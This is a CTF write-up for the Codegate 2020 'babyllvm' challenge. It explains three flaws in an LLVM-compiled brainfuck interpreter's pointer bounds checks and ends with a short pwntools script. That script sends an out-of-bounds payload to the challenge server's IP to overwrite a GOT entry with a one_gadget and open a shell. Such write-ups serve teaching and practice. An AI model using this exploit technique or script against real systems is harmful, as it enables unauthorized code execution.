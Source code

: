 ```yaml
---
title: babyllvm
---
```


I recently competed in [Codegate CTF 2020](https://ctftime.org/event/938) under the junior category. This was the one of the more interesting challenges that I solved.

### Summary

This was more of a reversing problem than pwn. The llvm served only to obfuscated the code, as opposed to raising any challenges itself. 

### Analysis

Three observations are needed to solve the problem. 

1. The data pointer can be out of bounds after a codeblock finishes executing.
2. During branched execution, the security checks don't ever get called. 3.  
3. During linear execution, ptrBoundCheck won't get called if you don't adjust rel_pos. 

<!--more-->


#### Observation 1

During linear execution, the opcode 1 lacks checks on the data pointer location. 

```python
elif op == 1:
  if imm != 0:
    ori = builder.ptrtoint(builder.load(dptr_ptr), i64)
    incr = llvmIR.Constant(i64, imm)
    new = builder.inttoptr(builder.add(ori, incr), i8_ptr)
    builder.store(new, dptr_ptr)
    rel_pos += imm
```

This directly stores the value of `dptr + imm` into `dptr`. Crucially, this means that the data pointer could point to out of bounds code after execution of a codeblock. 

#### Observation 2

Note that after one branching, the code is generated as 
```python
br1b = self.br1.codegen(module, (0, 0))
br2b = self.br2.codegen(module, (0, 0))
```

This passes in `(0, 0)` as the whitelist. If `br1` has additional branching, the check will never evaluate to true because whitelist will always be `(0, 0)` for non-linear code pieces.

```python
if not is_safe(0, whitelist):
  ...
  builder.call(ptrBoundCheck, [start, bound, cur])
```

#### Observation 3

As before, recall that the whitelist is set as `(0, 0)` by default. 

If `rel_pos` is equal to zero, then the security checks will never be called. 
```python
if not is_safe(rel_pos, whitelist_cpy):
  ...
  builder.call(ptrBoundCheck, [start, bound, cur])
```

If the data pointer points to out of bounds memory at the start of execution of the codeblock, we will be able to execute instructions on it!

#### Exploit

Combining these three observations, we can easily create an exploit. For example, consider the following block of code. 

```python
builder.position_at_end(resolveRight(headb)) # data_ptr = -1
if not is_safe(0, whitelist): # Never gets called
  ...
...
builder.cbranch(cond, resolveLeft(br2b), resolveLeft(br1b)) # do something with memory[-1]
```

For example, you could get a leak with `<<<[-.]`. 
```
head: <<<
left: -.
right: [Empty]
```

This would shift the data pointer 3 bytes left, and then repeatedly subtract and print until the data pointer becomes zero. 

We don't actually need a leak however, as all of our operations are relative. Because only partial relro is enabled, we can simply shift a GOT entry in `runtime.so` to a one_gadget. 

### Final Exploit

The final exploit is actually quite short. Most of the work was done constructing the three observations, hence it being more of a reversing problem than pwn. 

```python
from pwn import *

if "--remote" in sys.argv:
  p = remote("58.229.240.181", 7777)
else:
  #p = process(["python3", "main.py"])
  p = remote("localhost", 7777)

off = 0x40

p.sendlineafter(">>>", "[]" + "<" * 0x78 + "[" + "+" * (0x8c - 0x40) + ">" * off + "]"
  + "<" * (off - 1) + "[" + "+" * (0xc3 - 0x21) + ">" * off + "]"
  + "<" * (off - 1) + "[" + "-" * (0x44 - 0x43) + ">" * off + "]"
  )

p.sendlineafter(">>>", ".")


p.interactive()
```
